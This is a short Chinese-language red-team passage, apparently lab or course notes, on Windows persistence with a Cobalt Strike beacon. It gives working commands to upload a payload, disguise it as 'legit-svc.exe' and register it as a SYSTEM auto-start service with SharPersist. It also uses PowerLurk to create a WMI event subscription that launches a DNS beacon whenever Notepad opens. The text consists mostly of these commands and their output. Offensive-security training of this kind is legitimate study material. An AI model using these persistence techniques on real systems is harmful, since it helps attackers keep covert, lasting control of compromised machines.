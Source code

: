 # Windows Services

以system权限运行，新建一个自启服务.新建服务的好处是不会破坏原有的服务。
```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```

# WMI Event Subscriptions

[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk)是用于构建这些 WMI 事件的 PowerShell 工具。在本例中，我将一个 DNS 有效负载上传到 Windows 目录，导入 PowerLurk.ps1 并创建一个新的 WMI 事件订阅，该订阅将在记事本启动时执行

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```

在 Workstation 2 上打开记事本，将出现 DNS 信标

